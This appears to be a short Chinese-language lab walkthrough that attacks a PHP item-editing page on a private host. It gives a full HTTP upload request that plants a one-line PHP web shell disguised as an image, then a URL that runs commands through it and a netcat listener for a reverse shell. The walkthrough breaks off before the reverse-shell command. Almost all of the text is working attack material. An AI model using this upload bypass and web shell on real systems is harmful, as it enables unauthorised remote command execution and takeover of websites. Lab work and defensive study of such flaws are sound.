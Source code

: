 ```bash
POST /item/updateItem.php HTTP/1.1
Host: 172.16.1.65
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------40674686325473066152319269900
Content-Length: 939
Connection: close
Referer: http://172.16.1.65/item/editItem.php?id=1
Cookie: PHPSESSID=k39ut87e25fljlr8enuqjj8p97
Upgrade-Insecure-Requests: 1

-----------------------------40674686325473066152319269900
Content-Disposition: form-data; name="id"

1
-----------------------------40674686325473066152319269900
Content-Disposition: form-data; name="id_user"

1
-----------------------------40674686325473066152319269900
Content-Disposition: form-data; name="name"

Raspery Pi 4
-----------------------------40674686325473066152319269900
Content-Disposition: form-data; name="image"; filename="mn.phar"
Content-Type: image/jpeg

<?php system($_GET['cmd'])?>
-----------------------------40674686325473066152319269900
Content-Disposition: form-data; name="description"

Latest Raspberry Pi 4 Model B with 2/4/8GB RAM raspberry pi 4 BCM2711 Quad core Cortex-A72 ARM v8 1.5GHz Speeder Than Pi 3B
-----------------------------40674686325473066152319269900
Content-Disposition: form-data; name="price"

92
-----------------------------40674686325473066152319269900--
```


上传成功后访问`http://172.16.1.65/item/image/mn.phar?cmd=pwd`

接下来反弹`shell`

Kali:172.16.1.52

```shell
$ nc -lvp 123
```
